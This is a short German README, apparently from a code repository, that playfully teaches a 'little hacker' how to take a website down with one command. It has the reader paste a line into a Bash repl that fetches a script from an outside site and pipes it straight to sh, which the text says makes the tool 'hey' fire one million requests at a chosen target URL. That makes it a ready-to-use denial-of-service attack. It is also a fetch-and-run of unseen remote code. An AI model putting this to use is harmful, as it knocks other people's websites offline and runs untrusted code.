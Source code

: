 # Hoppsgenommen asa7be

Du kleiner Hägger bist hier gelandet, weil du wissen willst, wie man eine Seite in einem command hopps nimmt?

Dann bist du hier genau richtig !

Geh auf [repl.it](https://repl.it) und generiere eine neue Bash repl.

Dann paste dort folgenden code rein:

```bash
curl -L "gendos.site?args=https://deinezielurl.de%20-n=1000000" | sh
```

Drücke auf `Run` und schau was passiert :D!

Es kann unter Umständen etwas dauern, da [hey](https://github.com/rakyll/hey) 1000000 Requests
gegen "https://deinezielurl.de" feuert.

Enjoy.
